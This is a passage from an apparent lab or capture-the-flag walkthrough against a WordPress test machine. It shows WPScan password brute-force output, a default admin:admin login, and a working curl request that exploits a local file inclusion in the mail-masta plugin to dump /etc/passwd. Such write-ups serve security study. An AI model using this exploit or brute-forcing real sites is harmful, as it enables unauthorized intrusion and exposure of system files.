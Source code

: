     | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
[!] Default first WordPress username 'admin' is still used
[+] Starting the password brute forcer
  [!] ERROR: We received an unknown response for admin...
  Brute Forcing 'admin' Time: 00:00:02 <====================================================================================================================================================================> (52 / 52) 100.00% Time: 00:00:02

  Brute Forcing 'wpuser' Time: 00:00:02 <===================================================================================================================================================================> (52 / 52) 100.00% Time: 00:00:02


  +----+--------+--------+----------+
  | Id | Login  | Name   | Password |
  +----+--------+--------+----------+
  | 1  | admin  | admin  |          |
  | 2  | wpuser | wpuser |          |
  +----+--------+--------+----------+

[+] Finished: Fri Jun 23 04:49:31 2017
[+] Requests Done: 4523
[+] Memory used: 168.398 MB
[+] Elapsed time: 00:00:52
{% endhighlight %}

Try logging in as admin:admin, works

{% highlight bash %}
curl -v http://10.37.129.6/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
*   Trying 10.37.129.6...
* TCP_NODELAY set
* Connected to 10.37.129.6 (10.37.129.6) port 80 (#0)
> GET /wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd HTTP/1.1
> Host: 10.37.129.6
> User-Agent: curl/7.51.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 500 Internal Server Error
< Date: Sat, 10 Jun 2017 03:27:17 GMT
< Server: Apache/2.2.22 (Ubuntu)
< X-Powered-By: PHP/5.3.10-1ubuntu3
< Vary: Accept-Encoding
< Content-Length: 1745
< Connection: close
< Content-Type: text/html
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh